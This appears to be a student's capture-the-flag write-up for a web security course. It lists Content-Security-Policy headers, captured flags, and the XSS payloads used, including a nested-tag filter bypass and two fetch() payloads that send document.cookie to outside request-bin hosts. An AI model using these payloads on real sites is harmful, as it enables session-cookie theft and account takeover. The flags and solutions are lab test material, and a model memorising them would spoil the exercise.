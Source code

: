 # COMP6443 W2 Challenges Write-ups

## csp 1
### COMP6443{csp_1_z5346077_rS+2t7ArtiVwRqNyMQ4O}
default-src 'none';
script-src 'self' ssl.google-analytics.com 'sha256-R+A6ELN3JPMHUe0uf6qIRigpfMFEvnoKN/xNPiAbOdc=';
style-src 'self' maxcdn.bootstrapcdn.com fonts.googleapis.com;
font-src fonts.gstatic.com maxcdn.bootstrapcdn.com;
img-src https: data:

## csp 2
### COMP6443{csp_2_z5346077_J4vsvVTDXz6TK5IIkCG3}
default-src 'none';
script-src 'self' ssl.google-analytics.com 'sha256-R+A6ELN3JPMHUe0uf6qIRigpfMFEvnoKN/xNPiAbOdc=' 'nonce-2726c7f26c';
style-src 'self' maxcdn.bootstrapcdn.com fonts.googleapis.com;
font-src fonts.gstatic.com maxcdn.bootstrapcdn.com;
img-src https: data:

## csp 3
### COMP6443{csp_3_z5346077_bmais4w2h5eu5GPtSUX7}
default-src 'none';
script-src 'self' ssl.google-analytics.com 'sha256-R+A6ELN3JPMHUe0uf6qIRigpfMFEvnoKN/xNPiAbOdc=' 'nonce-2726c7f26c';
style-src 'self' maxcdn.bootstrapcdn.com fonts.googleapis.com;
font-src fonts.gstatic.com maxcdn.bootstrapcdn.com;
img-src 'self' https://unsplash.it https://picsum.photos https://fastly.picsum.photos

## csp 4
### COMP6443{csp_4_z5346077_yIYXi9cVpp6VsTWENe6R}
default-src 'none';
script-src 'nonce-onyDVMyUbCMVPCJc7AaTdA==' 'self' ssl.google-analytics.com 'strict-dynamic';
style-src 'self' maxcdn.bootstrapcdn.com fonts.googleapis.com;
font-src fonts.gstatic.com maxcdn.bootstrapcdn.com;
img-src 'self' ssl.google-analytics.com


## client 1
<<scr<sscript>alert(1)</script>
COMP6443{hey_thats_not_a_timestamp_z5346077_iTf97YfpUl7je9Z334+E}

## science-today 1
<scr<script>ipt>fetch("https://ennuhdmcyvpr.x.pipedream.net/?cookie="+document.cookie)</scr</script>ipt>
COMP6443{v@Mp1reS_H@ve_n0_R3fl3ctION_z5346077_gx8XXShAtt3s1av662UC}

## science-today 2
<img src=1 onerror=fetch("https://enfkpyt1ikem.x.pipedream.net/?cookie=" + document.cookie)>
COMP6443{im_In_UR_D@taBA53_z5346077_kmoNTdKzc7sdWACEvhTq}

## profile
COMP6443{SVGs_Ar3_juST_XML_and_JuSt_@s_BaD_z5346077_PXenE8S7pNtwD+/oB9hg}
report image path

## clients 3
Content-Security-Policy: script-src 'self' 'unsafe-inline'; object-src 'none'; base-uri 'none' ;

## report
COMP6443{H3Y_ST0P_R3P0RT1NG_M3_z5346077_CVEPzP7XT00s2dx0jACH}
Q09NUDY0NDN7SDNZX1NUMFBfUjNQMFJUMU5HX00zX3o1MzQ2MDc3X0NWRVB6UDdYVDAwczJkeDBqQUNIfQ==